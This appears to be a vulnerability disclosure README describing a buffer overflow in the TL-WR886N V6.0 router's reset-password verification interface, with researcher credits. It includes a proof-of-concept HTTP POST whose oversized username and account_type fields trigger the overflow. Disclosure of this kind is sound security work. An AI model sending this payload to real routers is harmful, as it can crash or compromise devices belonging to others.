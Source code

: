# TP-LINK WR-886N Vulnerability
This vulnerability is on the /cloud_config/router_post/get_reset_pwd_veirfy_code interface and affects the latest version of the router operating system (which is a different RTOS system from the linux operating system), and the firmware version is TL-WR886N V6.0 upgrade software 20190826 2.3.8
## Vulnerability description
There is a buffer overflow vulnerability on the /cloud_config/router_post/get_reset_pwd_veirfy_code interface.

1. An interface ```/cloud_config/router_post/get_reset_pwd_veirfy_code``` is registered first in the chkRegVeriRegister function.
![](./getResetVeriRegister1.png)
2. In the handler, the v7 variable is the ```username``` field in the packet, and the v9 variable is the ```account_type``` field in the packet. Then directly memcpy to the a3 variable refers to the address space, there is a buffer overflow problem.
![](./getResetVeriRegister2.png)
## poc
```
POST /cloud_config/router_post/get_reset_pwd_veirfy_code HTTP/1.1
Host: 192.168.0.1
Content-Length: 717
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded;
Accept: */*
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&account_type=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
```
## Acknowledgment 
Credit to [@Yu3H0](https://github.com/Yu3H0/) ,[@leonW7](https://github.com/leonW7), [@cpegg](https://github.com/cpeggg) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.